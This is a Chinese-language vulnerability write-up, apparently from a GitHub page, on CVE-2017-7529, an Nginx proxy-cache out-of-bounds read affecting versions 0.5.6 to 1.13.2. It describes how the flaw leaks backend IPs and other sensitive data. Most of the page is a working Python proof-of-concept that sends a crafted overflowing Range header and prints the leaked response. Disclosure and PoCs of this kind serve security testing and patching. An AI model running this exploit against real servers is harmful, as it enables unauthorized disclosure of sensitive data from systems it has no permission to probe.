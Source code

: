# CVE-2017-7529 Nginx越界读取缓存漏洞 #
## 受影响版本 ##
Nginx version 0.5.6 - 1.13.2
## 平台 ##
windows 、linux 等多平台
## 测试系统 ##
ubuntu
## 类型 ##
远程
## 描述 ##
该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。
## POC ##
<pre class="prettyprit lang-javascript">
import sys
import requests

if len(sys.argv) &lt; 2:
    print(&quot;%s url&quot; % (sys.argv[0]))
    print(&quot;eg: python %s http://your-ip:8080/&quot; % (sys.argv[0]))
    sys.exit()

headers = {
    &#x27;User-Agent&#x27;: &quot;Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240&quot;
}
offset = 6050
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers[&#x27;Range&#x27;] = &quot;bytes=-%d,-%d&quot; % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
</pre>